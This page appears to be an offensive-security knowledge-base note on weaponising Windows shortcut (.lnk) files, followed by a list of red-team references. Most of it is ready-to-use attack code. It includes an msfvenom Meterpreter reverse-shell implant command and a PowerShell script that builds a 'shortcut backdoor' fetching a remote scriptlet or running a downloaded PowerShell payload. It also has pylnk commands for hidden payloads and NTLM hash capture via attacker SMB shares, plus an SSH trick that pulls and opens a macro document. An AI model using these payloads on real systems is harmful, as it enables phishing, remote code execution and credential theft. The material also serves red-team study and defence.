 # Living off the Land

> [!INFO]
> Windows shortcut link (`.lnk`) is often referred as **Shell Link**.

## 01 - Custom Icons

```
C:\Windows\System32\msi.dll
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.exe
```

## 02 - Generate Shortcut

### 2.1 - PowerShell

> [!NOTE] Characters Limit
> The **TargetPath** has a limit of 260 characters long. If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > implant.ps1
```

TODO: Remove timestamps in the .lnk file

```powershell
$WScriptShell = New-Object -ComObject WScript.Shell
$ShortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$Shortcut = $WScriptShell.CreateShortcut($ShortcutPath)
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32.exe /s /n /u /i:http://<IP>/implant.sct scrobj.dll'
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http[s]://<attacker_IP>/implant.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.HotKey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7   # 1 - Normal, 3 - Maximized, 7 - Minimized
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

## 03 - Use Cases

### 3.1 - Hidden file

```
$ wine attrib.exe +h implant.ps1

$ wine attrib.exe

$ wine cmd.exe /c dir /a:h
```

```
$ pylnk c C:\Windows\System32\conhost.exe -a "powershell.exe -ep bypass -f implant.ps1" shortcut_file.lnk
```

### 3.2 - Capture NTLM Relay

```
$ pylnk c \\<attacker_IP>\<share_name>\@snare.txt shortcut_file.lnk

$ pylnk c \\<attacker_IP>\<share_name>\snare.txt shortcut_file.lnk
```

Scriptlet file

```
$ pylnk c C:\Windows\System32\regsvr32.exe -a "/s /u /i://<attacker_IP>/@snare scrobj.dll" implant.lnk
```

```
$ pylnk c C:\Windows\System32\OpenSSH\ssh.exe -a "\\<attacker_IP>\key.pem root@<IP>" implant.lnk
```

TODO: Provide use cases if any (refer to the link for SSH)

```
C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "LocalCommand=scp <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\macro_document.doc\. && %AppData%\Microsoft\Templates\macro_document.doc" <username>@<attacker_IP>
```

---
## References

### Backlinks

- [[01 - Capture Hashes via Spoof SMB Shares|Responder: Capture Hashes via Spoof SMB Shares Scenario]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit: Capture Hashes]]

- [[HTA Web Server|Metasploit: HTA Web Server]]

- [[SMB Delivery|Metasploit: SMB Delivery]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit: Web Delivery]]

### Source Repositories

- [rvrsh3ll: Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)

- [nobodyatall648: Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [B00merang-Artwork: Windows 10](https://github.com/B00merang-Artwork/Windows-10)

### Hull1

- [Hull1.com: Customize Shortcut Icon](https://www.hull1.com/scriptit/2020/08/15/customize-shortcut-icon.html)

### Bordergate

- [Bordergate: Disguising Client Side Payloads](https://www.bordergate.co.uk/disguising-client-side-payloads/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### DMCXBLUE

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Assume Breach

- [Assume Breach: Using LNK Files To Bypass Applocker](https://assume-breach.medium.com/home-grown-red-team-using-lnk-files-to-bypass-applocker-3fb1ecae291f)

- [Assume Breach: LNK Phishing Revisited In 2023](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-revisited-in-2023-364daf70a06a)

- [Assume Breach: LNK Phishing In 2023 Revisited…Again](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-in-2023-revisited-again-2b8c885b9836)

### RedSiege

- [RedSiege: SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### B4ckdoor

- [b4ckdoor: Is Macro Phishing Dead in 2024? — A Scheduled Task for Initial Access and Persistence using macro by Abusing Shortcut Files and SSH](https://b4ckdoor.medium.com/is-macro-phishing-dead-in-2024-56b7b4473a29)

### BadOption

- [BadOption: ZipLink - Combine Zips and Lnk for fun and profit](https://badoption.eu/blog/2023/09/28/ZipLink.html)